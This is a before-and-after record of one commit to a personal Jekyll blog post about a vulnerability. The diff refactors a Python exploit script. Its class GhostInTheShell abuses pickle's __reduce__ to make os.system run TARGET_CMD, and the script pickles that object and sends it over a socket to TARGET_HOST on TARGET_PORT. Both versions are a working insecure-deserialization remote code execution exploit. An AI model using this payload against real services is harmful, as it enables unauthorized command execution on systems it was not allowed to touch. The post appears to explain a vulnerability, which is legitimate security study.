

Before and after one commit to n33m0/n33m0.github.io, a Jekyll site: the page built from _posts/2015-10-15-vulnerability_just_ahead.md, in a window 1280 px wide and 1400 px high, scrolled down 887 px. Shown: the whole window, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded.

Commit message:
yet another adjustment

```diff
--- a/_posts/2015-10-15-vulnerability_just_ahead.md
+++ b/_posts/2015-10-15-vulnerability_just_ahead.md
@@ -32,12 +32,10 @@ class GhostInTheShell(object):
         return (os.system, (TARGET_CMD,))
 
 
-def sendPayloadAndReceiveResponse():
-    payload = cPickle.dumps(GhostInTheShell())
-
+def sendDataAndPrintResponse(data):
     sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     sock.connect((TARGET_HOST, TARGET_PORT))
-    sock.send(payload)
+    sock.send(data)
 
     print(sock.recv(1024))
 
@@ -45,7 +43,8 @@ def sendPayloadAndReceiveResponse():
 
 
 def main():
-    sendPayloadAndReceiveResponse()
+    payload = cPickle.dumps(GhostInTheShell())
+    sendDataAndPrintResponse(payload)
 
 
 if __name__ == "__main__":
```
